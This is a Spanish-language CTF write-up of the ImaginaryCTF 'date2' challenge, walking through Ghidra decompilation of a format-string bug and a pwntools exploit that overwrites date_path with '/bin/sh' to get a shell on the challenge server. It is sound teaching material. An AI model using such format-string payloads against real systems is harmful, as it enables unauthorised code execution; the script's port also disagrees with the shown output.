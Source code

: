 ```yaml
---
layout: post
title: ImaginaryCTF date2 - GOT overwrite
author: c4rta
date: 2022-07-30
categories: [Explotacion binaria]
tags: [GOT overwrite, format string]
description: >
  En este articulo resolveremos un ejercicio de explotacion binaria de la pagina ImaginaryCTF donde tenemos de sobreescribir la direccion de GOT de printf
image: 
  path: /assets/img/imaginaryCTF-date2/waifu.jpg
---
```

{:.lead}

## Analizando el binario con Ghidra

Este ejercicio es muy similar al enterior del post de GOT overwrite y para practicar esta perfecto, solo que ahora no podemos ver el codigo fuente del binario, asi que lo que nos toca es analizarlo con ghidra

Lo primero que vamos a hacer es meter el binario a Ghidra la cual pueden descargar desde su repo oficial

```
https://github.com/NationalSecurityAgency/ghidra/releases
```
Despues en la seccion llamada ```Symbool tree``` desplegaremos la carpeta de ```functions``` y le damos click en main, como se ve en la imagen

![](/assets/img/imaginaryCTF-date2/ghidra1.png)

Esto nos arrojara del lado derecho de ghidra el codigo que trato de decompilar donde vemos todo esto:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(local_118,0x100,stdin);
  printf(local_118);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Viendo la declaracion de variables en la parte de arriba, osea estas: 

```
long in_FS_OFFSET;
char local_118 [264];
long local_10;
```
Vemos una en particular que se declara como ```char local_118 [264];```, esto es el buffer asi que vamos a renombrar la variable ```local_118``` a ```buffer```, ahora nuestro codigo se ve asi:

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  char buffer [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Acortanto mas el codigo para mostrar lo que nos interesa queda el codigo asi:

```c
  puts("What\'s today\'s date?");
  fgets(buffer,0x100,stdin);
  printf(buffer);
  puts("????");
  puts("no smh you are wrong the date is ");
  system(date_path);
```
Esto es sencillo de analizar lo que hace el binario es primeramente con ```puts``` mostrar el mensaje de ```What\'s today\'s date?```, despues con ```fgets(buffer,0x100,stdin);``` recibe un input que se guardara en ```buffer``` donde el valor maximo que podemos guardar es ```0x100```, esto pasandolo de hexadecimal a decimal nos da ```256```, despues hay dos ```puts``` que imprimen unas cadenas (nada relevante), y finalmente la funcion ```system``` manda a llamar a lo que tiene ```date_path```, y si en Ghidra le damos doble click sobre ```date_path``` vemos lo siguiente

![](/assets/img/imaginaryCTF-date2/ghidra2.png)

Aqui ya esta potente la cosa, por que se esta mandando a llamar al binario ```date``` desde la funcion ```system``` y se sabe que se esta llamando el binario date ya que la ruta es ```/usr/bin/date```, asi que lo que vamos a hacer es sobreescribir el valor GOT de ```date_path``` por ```/bin/sh``` y como se esta usando la funcion ```system``` nos debe de ejecutar una sh  

### Calculando el offset el buffer

De igual manera que el ejercicio anterior de GOT tenemos de encontrar el offset del buffer a travez de format string, asi que le pasaremos el binario algunas A y algunos format string ```AAAAAAAA %p %p %p %p %p %p %p %p```, cuando lo ejecutemos nos muestra esto

![](/assets/img/imaginaryCTF-date2/vuln1.png)

Si empezamos a contar desde ```0x7ffff7dfda63``` hasta donde empiezan nuestras "A" que es donde esta seleccionado en la imagen nos da como resultado 6, asi que ese es el offset el buffer

## Ejecutando el exploit

EL exploit usado es similar al del post anterior de GOT, lo que cambia es que nos estamos conectando remotamente a eth007.me.

```python

from pwn import *

context.binary = elf = ELF("./vuln")
r = remote("eth007.me", 42042)
r.sendline(fmtstr_payload(6, writes={elf.sym.date_path: u64(b"/bin/sh\x00")}))
r.interactive()
```
Si lo ejecutamos y listamos el contenido podemos ver la flag

```
[+] Opening connection to eth007.me on port 42069: Done
[*] '/home/omarh/Escritorio/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
no smh you are wrong the date is 
$ ls
flag.txt
```
Eso ha sido todo, gracias por leer ❤

